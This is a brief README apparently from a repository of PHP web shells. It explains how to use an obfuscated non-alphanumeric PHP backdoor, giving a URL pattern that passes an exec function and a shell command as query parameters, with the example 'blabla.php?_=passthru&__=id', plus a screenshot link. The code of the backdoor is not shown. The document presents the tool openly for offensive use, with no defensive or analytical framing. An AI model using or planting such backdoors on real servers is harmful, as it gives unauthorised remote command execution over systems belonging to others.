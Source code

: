 # PHP Backdoor Usage
### For simple-non-alphanumerics.php
- Usage: blabla.php?_=< system exec function >&__=< command >
- Example: blabla.php?_=passthru&__=id

![image](https://user-images.githubusercontent.com/39643796/165589564-847325b3-3606-4327-a397-c4379c23978b.png)
